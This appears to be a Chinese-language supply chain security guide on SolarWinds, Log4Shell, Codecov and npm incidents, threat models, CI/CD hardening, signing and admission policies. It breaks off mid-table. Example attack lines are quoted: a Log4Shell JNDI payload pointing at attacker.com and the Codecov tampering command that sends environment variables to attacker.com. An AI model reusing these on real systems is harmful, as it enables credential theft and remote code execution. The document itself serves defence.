








# 供应链安全概述 (Supply Chain Security Overview)

> 软件供应链安全是现代云原生应用程序安全的核心支柱，涵盖从代码提交到生产部署的完整生命周期保护。

---

## 目录 (Table of Contents)

1. [供应链安全简介](#1-供应链安全简介)
2. [重大安全事件分析](#2-重大安全事件分析)
3. [攻击向量与威胁模型](#3-攻击向量与威胁模型)
4. [深度防御策略](#4-深度防御策略)
5. [零信任供应链架构](#5-零信任供应链架构)
6. [行业框架与标准](#6-行业框架与标准)
7. [NIST SSDF 框架详解](#7-nist-ssdf-框架详解)
8. [SLSA 框架概述](#8-slsa-框架概述)
9. [云原生供应链安全生态](#9-云原生供应链安全生态)
10. [实施路径与最佳实践](#10-实施路径与最佳实践)
11. [合规性与监管要求](#11-合规性与监管要求)
12. [未来趋势与挑战](#12-未来趋势与挑战)

---

## 1. 供应链安全简介

### 1.1 什么是软件供应链 (What is Software Supply Chain)

软件供应链是指软件从开发到交付过程中涉及的所有组件、工具、流程和参与者的集合。

```
软件供应链的组成要素:

┌─────────────────────────────────────────────────────────┐
│                   软件供应链全景                          │
├─────────────────────────────────────────────────────────┤
│  开发人员  →  源代码  →  依赖项  →  构建系统  →  制品    │
│     ↓            ↓         ↓           ↓          ↓      │
│  身份认证    代码审查    版本锁定    安全扫描    签名验证  │
└─────────────────────────────────────────────────────────┘
```

**供应链的核心组件：**

| 组件 | 描述 | 安全关注点 |
|------|------|-----------|
| 源代码 | 开发者编写的代码 | 代码注入、后门 |
| 第三方依赖 | 开源库和框架 | 恶意包、漏洞 |
| 构建工具 | 编译器、构建系统 | 工具链污染 |
| CI/CD 系统 | 自动化管道 | 管道劫持 |
| 容器镜像 | 运行时环境 | 镜像篡改 |
| 制品仓库 | 存储和分发 | 仓库污染 |
| 部署环境 | 运行时基础设施 | 环境污染 |

### 1.2 供应链攻击的定义与分类

供应链攻击是指攻击者通过破坏软件开发、构建或分发过程中的某个环节，将恶意代码或后门植入最终软件产品的攻击方式。



### 1.3 供应链安全的重要性

2021年以来，供应链攻击已成为网络安全领域增长最快的威胁类型：

- **攻击频率**：同比增长 650%（2020→2021）
- **影响范围**：单次攻击可影响数千家企业
- **经济损失**：平均每次事件损失超过 400 万美元
- **恢复时间**：平均恢复时间超过 200 天

---

## 2. 重大安全事件分析

### 2.1 SolarWinds 攻击事件 (2020)

#### 事件背景

SolarWinds Orion 是广泛使用的 IT 监控平台，攻击者（Nobelium/APT29）在 2020 年 3 月至 6 月期间成功入侵其构建系统，将恶意代码植入合法软件更新中。

```
SolarWinds 攻击时间线:

2019年10月 ──── 攻击者首次进入 SolarWinds 网络
2020年02月 ──── 恶意代码测试版本发布（未激活）
2020年03月 ──── SUNBURST 后门植入 Orion 2019.4-2020.2.1
2020年05月 ──── 恶意更新推送给18,000+客户
2020年12月 ──── FireEye 发现并披露攻击
2021年01月 ──── 完整调查报告发布
```

#### 技术分析

```
攻击链分解:

[SolarWinds 源码仓库]
        │
        ▼ (1) 植入恶意代码 - 修改 SolarWinds.Orion.Core.BusinessLayer.dll
[构建系统]
        │
        ▼ (2) 合法签名 - 使用 SolarWinds 官方代码签名证书
[Orion 更新包]
        │
        ▼ (3) 分发 - 通过官方更新服务器推送
[18,000+ 客户系统]
        │
        ▼ (4) 激活 - 休眠2周后激活，检查环境并建立C2通信
[SUNBURST 后门激活]
        │
        ▼ (5) 横向移动 - 访问邮件、文件、内网资源
[数据外泄]
```

#### 受害者影响

| 受害机构 | 影响程度 |
|---------|---------|
| 美国财政部 | 邮件系统被访问数月 |
| 美国商务部 | NTIA 网络完全失陷 |
| FireEye | 红队工具被盗 |
| Microsoft | 源码仓库被访问 |
| 9个联邦机构 | 不同程度失陷 |
| 100+私企 | 受到感染 |

#### 教训与防御措施

```yaml
# SolarWinds 事件防御检查清单
防御措施:
  构建环境:
    - 隔离构建系统，禁止直接网络访问
    - 实施构建环境不可变基础设施
    - 所有构建过程记录完整日志和审计
    - 构建输出进行哈希验证和存档
    
  代码完整性:
    - 实施代码提交强制签名 (GPG)
    - 多人审核关键代码变更
    - 静态分析扫描所有提交
    - 二进制制品与源码可重现构建
    
  供应链监控:
    - 监控第三方组件变更
    - 依赖锁定文件（lock files）
    - 定期审计构建产物
    - 网络流量异常检测
```

### 2.2 Log4Shell 漏洞事件 (2021)

#### 漏洞概述

CVE-2021-44228（Log4Shell）是 Apache Log4j 2 中的远程代码执行漏洞，CVSS 评分 10.0（满分），影响全球数亿个系统。

```
Log4Shell 漏洞利用链:

攻击者控制的输入 → Log4j 日志记录调用
                              │
                              ▼
                  ${jndi:ldap://attacker.com/exploit}
                              │
                              ▼
                   Log4j 解析 JNDI lookup
                              │
                              ▼
                   连接攻击者 LDAP 服务器
                              │
                              ▼
                   下载并加载恶意 Java 类
                              │
                              ▼
                   在目标系统执行任意代码
```

#### 影响范围分析



#### 供应链视角的教训

```
Log4Shell 暴露的供应链问题:

1. 依赖透明度不足
   ─ 大多数组织不知道其软件中包含 Log4j
   ─ 传递依赖追踪缺乏工具支持
   ─ 商业软件缺乏 SBOM（软件物料清单）

2. 漏洞响应迟缓
   ─ 无法快速识别受影响系统
   ─ 缺乏自动化补丁分发机制
   ─ 多版本并存导致修复复杂

3. 功能蔓延风险
   ─ JNDI lookup 是不必要的高危功能
   ─ 默认启用危险特性
   ─ 最小权限原则未贯彻
```

**应对措施时间线：**

```bash
# 2021-12-09: 漏洞公开
# 立即缓解措施
# Log4j 2.10.0-2.14.1
export LOG4J_FORMAT_MSG_NO_LOOKUPS=true

# 或者 JVM 参数
java -Dlog4j2.formatMsgNoLookups=true -jar app.jar

# WAF 规则（临时阻断）
# 阻断包含 ${jndi: 的请求

# 2021-12-10: Log4j 2.15.0 发布（初始修复，不完整）
# 2021-12-13: Log4j 2.16.0 发布（禁用 JNDI lookup）
# 2021-12-18: Log4j 2.17.0 发布（修复 CVE-2021-45105）
# 2021-12-28: Log4j 2.17.1 发布（修复 CVE-2021-44832）

# 最终解决方案：升级到 2.17.1+
```

### 2.3 Codecov 供应链攻击 (2021)

#### 事件描述

2021年4月，Codecov（代码覆盖率服务）的 Bash Uploader 脚本被篡改，攻击者通过修改官方脚本中的 URL，将环境变量（包括 API 密钥、令牌）发送到攻击者控制的服务器。

```
Codecov 攻击流程:

[攻击者入侵 Codecov Docker 镜像构建过程]
                    │
                    ▼
[修改 bash uploader 脚本中的 git remote URL]
                    │
                    ▼
# 原始代码:
git remote -v >> /tmp/codecov.*

# 篡改后:
git remote -v >> /tmp/codecov.*
curl -sm 0.5 -d "<<<<<< ENV $(git remote -v)<<<<<< ENV \
$(env)" http://attacker.com/upload/v2

                    │
                    ▼
[数千家企业在 CI/CD 中执行篡改脚本]
                    │
                    ▼
[环境变量（包含敏感凭据）被盗取]
                    │
                    ▼
[攻击者利用盗取的凭据横向移动到客户系统]
```

#### 影响评估

- **持续时间**：2021年1月31日 - 2021年4月1日（约2个月）
- **受影响工具**：Codecov Bash Uploader 所有版本
- **受害企业**：包括 Twilio、HashiCorp、Confluent 等知名企业
- **泄露数据类型**：AWS 密钥、GitHub Token、内部 API 密钥等

#### 防御策略

```bash
# 脚本完整性验证最佳实践

# 1. 固定版本引用（避免使用 latest）
# 不安全的做法:
curl -s https://codecov.io/bash | bash

# 安全的做法:
VERSION="2.1.0"
curl -Os https://uploader.codecov.io/v${VERSION}/linux/codecov
# 验证签名
curl -Os https://uploader.codecov.io/v${VERSION}/linux/codecov.SHA256SUM
curl -Os https://uploader.codecov.io/v${VERSION}/linux/codecov.SHA256SUM.sig
gpg --verify codecov.SHA256SUM.sig codecov.SHA256SUM
shasum -a 256 -c codecov.SHA256SUM
chmod +x codecov
./codecov

# 2. 在 CI/CD 中验证第三方脚本哈希
- name: Run Codecov
  run: |
    EXPECTED_SHA="your-known-good-sha256"
    curl -Os https://uploader.codecov.io/latest/linux/codecov
    ACTUAL_SHA=$(sha256sum codecov | awk '{print $1}')
    if [ "$EXPECTED_SHA" != "$ACTUAL_SHA" ]; then
      echo "Hash mismatch! Potential tampering detected!"
      exit 1
    fi
    chmod +x codecov && ./codecov
```

### 2.4 npm 包污染事件案例

#### event-stream 事件 (2018)

```
事件经过:
1. event-stream 包维护者 (dominictarr) 将维护权转让给陌生人
2. 新维护者添加了恶意依赖 flatmap-stream
3. flatmap-stream 包含加密的恶意载荷
4. 载荷仅在特定环境（Copay 比特币钱包）激活
5. 目标：窃取 Copay 用户的比特币私钥

影响统计:
- event-stream 周下载量: 数百万次
- 直接依赖包数量: 1600+
- 受影响最终用户: 数百万比特币钱包用户
```

#### colors.js 和 faker.js 破坏事件 (2022)

```javascript
// 开发者 Marak Squires 故意破坏自己维护的包
// colors.js - 每周 2000万+ 下载量
// 植入死循环代码，打印 "LIBERTY LIBERTY LIBERTY"

// 受影响版本: colors 1.4.44-liberty-2
// 受影响版本: faker 6.6.6

// 教训：
// 1. 开源生态系统对单一维护者过度依赖
// 2. 自动更新策略的风险（^1.4.0 vs 1.4.43）
// 3. 需要更严格的版本固定策略
```

---

## 3. 攻击向量与威胁模型

### 3.1 MITRE ATT&CK 供应链攻击矩阵



### 3.2 OWASP 十大供应链风险

| 排名 | 风险类型 | 描述 | 严重程度 |
|------|---------|------|---------|
| 1 | 代码注入攻击 | 恶意代码植入开源组件 | 严重 |
| 2 | 依赖混淆 | 内部包与公共包命名冲突 | 高危 |
| 3 | 过时的开源依赖 | 使用含已知漏洞的版本 | 高危 |
| 4 | 未验证的传递依赖 | 间接依赖引入漏洞 | 高危 |
| 5 | 缺乏完整性检查 | 下载包未进行哈希验证 | 中危 |
| 6 | 许可证合规风险 | 使用许可证不兼容的组件 | 中危 |
| 7 | CI/CD 管道未保护 | 自动化系统缺乏安全控制 | 严重 |
| 8 | 不安全的系统配置 | 构建环境配置错误 | 高危 |
| 9 | 私有包外泄 | 内部组件意外发布到公共仓库 | 高危 |
| 10 | 软件物料清单缺失 | 无法追踪软件组件 | 高危 |

### 3.3 供应链威胁建模

```
STRIDE 威胁模型应用于供应链:

┌──────────────────────────────────────────────────────────┐
│  S - 欺骗 (Spoofing)                                     │
│  威胁: 伪装成合法的包/作者/仓库                           │
│  示例: 包命名抢注、Git 提交伪造                           │
├──────────────────────────────────────────────────────────┤
│  T - 篡改 (Tampering)                                    │
│  威胁: 修改合法软件包或构建产物                           │
│  示例: SolarWinds、Codecov 事件                          │
├──────────────────────────────────────────────────────────┤
│  R - 抵赖 (Repudiation)                                  │
│  威胁: 否认恶意变更的来源                                 │
│  示例: 无审计日志、无代码签名                             │
├──────────────────────────────────────────────────────────┤
│  I - 信息泄露 (Information Disclosure)                   │
│  威胁: 泄露源代码、密钥或配置                             │
│  示例: Codecov 环境变量泄露                               │
├──────────────────────────────────────────────────────────┤
│  D - 拒绝服务 (Denial of Service)                        │
│  威胁: 破坏依赖包使软件无法运行                           │
│  示例: colors.js/faker.js 故意破坏                        │
├──────────────────────────────────────────────────────────┤
│  E - 权限提升 (Elevation of Privilege)                   │
│  威胁: 通过供应链获取更高权限                             │
│  示例: 利用 CI/CD 令牌横向移动                            │
└──────────────────────────────────────────────────────────┘
```

### 3.4 依赖混淆攻击详解

```python
# 依赖混淆攻击原理
# 
# 企业内部包名: company-internal-utils (私有仓库)
# 攻击者行动: 在 PyPI/npm 发布同名公共包 company-internal-utils
# 
# 利用包管理器的包解析优先级:
# - 某些配置下，公共仓库版本号更高则优先安装
# - 开发者不知情下安装了恶意包

# 防御：使用私有镜像和范围包
# pip.conf
[global]
index-url = https://internal.company.com/simple/
extra-index-url = https://pypi.org/simple/

# 更安全的配置（使用 --no-index）
[global]
index-url = https://internal.company.com/simple/
# 不配置 extra-index-url，防止混淆

# npm: 使用 scoped packages
{
  "name": "@company/internal-utils",  // scoped 包难以混淆
  "publishConfig": {
    "registry": "https://internal.company.com/npm/"
  }
}
```

### 3.5 恶意 CI/CD 攻击向量

```yaml
# GitHub Actions 中的常见攻击场景

# 1. Pull Request 触发的恶意工作流
# 攻击者提交包含修改 workflow 文件的 PR
# 若 workflow 在 PR 上下文中运行且有写权限，可能导致:
# - 读取仓库 secrets
# - 修改代码或依赖

# 2. 恶意 Actions 引用
# 不安全的做法（使用可变标签）:
- uses: some-org/some-action@v1  # v1 标签可以被更改

# 安全的做法（固定到不可变 commit SHA）:
- uses: some-org/some-action@a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b0

# 3. 第三方 Action 供应链攻击
# 监控 Actions 依赖变更
name: Security Check
on: [push]
jobs:
  check-actions:
    runs-on: ubuntu-latest
    steps:
      - name: Check action hashes
        run: |
          # 验证使用的 Actions 哈希未变更
          grep -r "uses:" .github/workflows/ | \
          grep -v "@[a-f0-9]\{40\}" | \
          grep -v "actions/" && \
          echo "WARNING: Non-pinned actions found!" && exit 1 || \
          echo "All actions are pinned to commit SHAs"
```

---

## 4. 深度防御策略

### 4.1 纵深防御架构



### 4.2 代码完整性保护

```bash
# Git 提交签名配置

# 1. 生成 GPG 密钥
gpg --full-generate-key
# 选择 RSA, 4096 bits, 不过期

# 2. 导出公钥
gpg --list-secret-keys --keyid-format=long
# 假设 Key ID 为: 3AA5C34371567BD2
gpg --armor --export 3AA5C34371567BD2

# 3. 配置 Git 签名
git config --global user.signingkey 3AA5C34371567BD2
git config --global commit.gpgsign true
git config --global tag.gpgsign true

# 4. 验证签名
git log --show-signature -1
git verify-commit HEAD

# 5. GitHub 分支保护规则（通过 API 配置）
curl -X PUT \
  -H "Authorization: token $GITHUB_TOKEN" \
  -H "Accept: application/vnd.github.v3+json" \
  https://api.github.com/repos/org/repo/branches/main/protection \
  -d '{
    "required_status_checks": {"strict": true, "contexts": []},
    "enforce_admins": true,
    "required_pull_request_reviews": {
      "required_approving_review_count": 2,
      "dismiss_stale_reviews": true,
      "require_code_owner_reviews": true
    },
    "restrictions": null,
    "required_linear_history": true,
    "required_conversation_resolution": true
  }'
```

### 4.3 依赖安全管理

```toml
# Cargo.toml (Rust) - 版本锁定示例
[dependencies]
serde = { version = "=1.0.152", features = ["derive"] }  # 精确版本锁定
tokio = { version = "=1.25.0", features = ["full"] }

# 不推荐（允许任意次版本更新）:
# serde = "1"
# serde = "1.0"
```

```json
// package.json (Node.js) - 安全配置
{
  "name": "my-app",
  "engines": {
    "node": ">=18.0.0"
  },
  "scripts": {
    "preinstall": "npx npm-audit-report",
    "prepare": "node -e \"if (process.env.NODE_ENV === 'production') process.exit(1)\" || husky install"
  },
  "dependencies": {
    "express": "4.18.2"
  },
  "devDependencies": {
    "audit-ci": "^6.6.1"
  },
  "overrides": {
    "minimatch": "3.1.2"
  }
}
```

```yaml
# 依赖安全扫描 CI 配置
name: Dependency Security Scan
on:
  push:
    branches: [main]
  pull_request:
  schedule:
    - cron: '0 2 * * 1'  # 每周一凌晨2点

jobs:
  dependency-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1
      
      - name: Run Grype vulnerability scan
        uses: anchore/scan-action@3343887d815d7b07465f6fdcd395bd66508d486a  # v3.6.4
        with:
          path: "."
          fail-build: true
          severity-cutoff: high
          
      - name: Dependency Review
        uses: actions/dependency-review-action@9129d7d40b8c12c1ed0f60400d00c92d437adfd0  # v4.1.3
        with:
          fail-on-severity: moderate
          allow-licenses: MIT, Apache-2.0, BSD-2-Clause, BSD-3-Clause
```

### 4.4 构建环境安全

```dockerfile
# 安全的多阶段构建配置

# 构建阶段 - 使用固定的、经过验证的基础镜像
FROM golang:1.21.6-alpine3.19@sha256:2523a6f68a0f515fe251aad40b18545155101053da6ae8a1db05b51c7f37e42 AS builder

# 以非 root 用户运行构建
RUN adduser -D -g '' appuser

# 安装依赖前验证完整性
WORKDIR /build
COPY go.sum go.mod ./

# 使用 -mod=readonly 防止修改 go.sum
RUN go mod download -x && go mod verify

COPY . .

# 构建参数注入版本信息
ARG BUILD_DATE
ARG GIT_COMMIT
ARG VERSION

RUN CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build \
    -ldflags="-w -s \
    -X main.version=${VERSION} \
    -X main.buildDate=${BUILD_DATE} \
    -X main.gitCommit=${GIT_COMMIT}" \
    -o /build/app ./cmd/app

# 运行阶段 - 最小化镜像
FROM scratch

COPY --from=builder /etc/ssl/certs/ca-certificates.crt /etc/ssl/certs/
COPY --from=builder /etc/passwd /etc/passwd
COPY --from=builder /build/app /app

USER appuser
EXPOSE 8080
ENTRYPOINT ["/app"]
```

```bash
# 构建出处记录脚本
#!/bin/bash
# generate-provenance.sh

set -euo pipefail

OUTPUT_FILE="${1:-provenance.json}"

cat > "$OUTPUT_FILE" << EOF
{
  "buildType": "https://github.com/slsa-framework/slsa/blob/main/docs/provenance/v1",
  "builder": {
    "id": "https://github.com/actions/runner@$(gh version | head -1)",
    "version": {
      "github-hosted-runner": "${RUNNER_OS}-${RUNNER_ARCH}"
    }
  },
  "metadata": {
    "buildInvocationID": "${GITHUB_RUN_ID}/${GITHUB_RUN_ATTEMPT}",
    "buildStartedOn": "$(date -u +%Y-%m-%dT%H:%M:%SZ)",
    "completeness": {
      "parameters": true,
      "environment": false,
      "materials": true
    },
    "reproducible": false
  },
  "materials": [
    {
      "uri": "git+${GITHUB_SERVER_URL}/${GITHUB_REPOSITORY}",
      "digest": {
        "sha1": "${GITHUB_SHA}"
      }
    }
  ]
}
EOF

echo "Provenance generated: $OUTPUT_FILE"
```

---

## 5. 零信任供应链架构

### 5.1 零信任原则在供应链中的应用

```
传统安全模型 vs 零信任供应链:

传统模型:
┌─────────────────────────────────┐
│  内部网络（受信任）              │
│  ┌─────┐  ┌─────┐  ┌─────┐    │
│  │ 开发│  │ 构建│  │部署 │    │
│  └─────┘  └─────┘  └─────┘    │
│         隐式信任所有内部操作     │
└─────────────────────────────────┘

零信任模型:
┌─────────────────────────────────┐
│  永不信任，始终验证              │
│  ┌─────┐  ┌─────┐  ┌─────┐    │
│  │ 开发│→ │ 构建│→ │部署 │    │
│  └──┬──┘  └──┬──┘  └──┬──┘    │
│     ↓        ↓         ↓        │
│  身份验证  出处证明  策略检查   │
│  访问控制  完整性验证  审计日志  │
└─────────────────────────────────┘
```

### 5.2 零信任供应链技术栈



### 5.3 Sigstore 生态系统

Sigstore 是 Linux 基金会支持的开源供应链安全项目，提供无密钥签名基础设施。

```bash
# Sigstore Cosign 使用示例

# 安装 Cosign
brew install cosign
# 或者
go install github.com/sigstore/cosign/v2/cmd/cosign@latest

# 1. 无密钥签名（使用 OIDC）
cosign sign \
  --identity-token=$(cat /tmp/oidc-token) \
  ghcr.io/myorg/myapp:v1.0.0

# 2. 使用密钥对签名
# 生成密钥对
cosign generate-key-pair

# 签名镜像
cosign sign \
  --key cosign.key \
  ghcr.io/myorg/myapp:v1.0.0

# 3. 验证签名
cosign verify \
  --certificate-identity="https://github.com/myorg/myapp/.github/workflows/release.yml@refs/heads/main" \
  --certificate-oidc-issuer="https://token.actions.githubusercontent.com" \
  ghcr.io/myorg/myapp:v1.0.0

# 使用密钥验证
cosign verify \
  --key cosign.pub \
  ghcr.io/myorg/myapp:v1.0.0

# 4. 签名 SBOM 并附加到镜像
syft ghcr.io/myorg/myapp:v1.0.0 -o spdx-json > sbom.json
cosign attach sbom \
  --sbom sbom.json \
  ghcr.io/myorg/myapp:v1.0.0

# 5. 签名出处（provenance）
cosign attest \
  --predicate provenance.json \
  --type slsaprovenance \
  ghcr.io/myorg/myapp:v1.0.0
```

### 5.4 OPA/Gatekeeper 供应链策略

```rego
# supply-chain-policy.rego
# 使用 OPA 强制执行供应链安全策略

package kubernetes.admission

import data.lib.images

# 拒绝未签名的容器镜像
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  not images.is_signed(container.image)
  msg := sprintf("Image %v is not signed by trusted authority", [container.image])
}

# 拒绝使用 latest 标签的镜像
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  endswith(container.image, ":latest")
  msg := sprintf("Image %v uses 'latest' tag which is not allowed", [container.image])
}

# 拒绝不来自受信任仓库的镜像
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  trusted_registries := {"gcr.io/myorg/", "ghcr.io/myorg/", "internal.registry.com/"}
  not any({startswith(container.image, r) | r := trusted_registries[_]})
  msg := sprintf("Image %v is not from a trusted registry", [container.image])
}

# 要求 SLSA L2+ 出处
deny[msg] {
  input.request.kind.kind == "Pod"
  container := input.request.object.spec.containers[_]
  not images.has_slsa_provenance(container.image)
  msg := sprintf("Image %v does not have SLSA provenance", [container.image])
}
```

```yaml
# Kyverno 策略：验证容器镜像签名
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: verify-image-signature
  annotations:
    policies.kyverno.io/title: Verify Image Signature
    policies.kyverno.io/category: Supply Chain Security
    policies.kyverno.io/severity: high
spec:
  validationFailureAction: enforce
  background: false
  rules:
    - name: verify-cosign-signature
      match:
        any:
          - resources:
              kinds: [Pod]
              namespaces: ["production", "staging"]
      verifyImages:
        - imageReferences:
            - "ghcr.io/myorg/*"
          attestors:
            - count: 1
              entries:
                - keyless:
                    subject: "https://github.com/myorg/*/.github/workflows/*.yml@refs/heads/main"
                    issuer: "https://token.actions.githubusercontent.com"
                    rekor:
                      url: https://rekor.sigstore.dev
```

---

## 6. 行业框架与标准

### 6.1 主要框架概览

```
供应链安全框架生态系统:

┌──────────────────────────────────────────────────────────┐
│  政府/监管机构                                            │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  │
│  │  NIST SSDF   │  │   EO 14028   │  │  NSA/CISA    │  │
│  │  (SP 800-218)│  │ (Biden EO)   │  │   指南       │  │
│  └──────────────┘  └──────────────┘  └──────────────┘  │
├──────────────────────────────────────────────────────────┤
│  行业标准                                                 │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  │
│  │     SLSA     │  │   OpenSSF    │  │   CIS SSCS   │  │
│  │   (Google)   │  │   Scorecard  │  │              │  │
│  └──────────────┘  └──────────────┘  └──────────────┘  │
├──────────────────────────────────────────────────────────┤
│  技术规范                                                 │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐  │
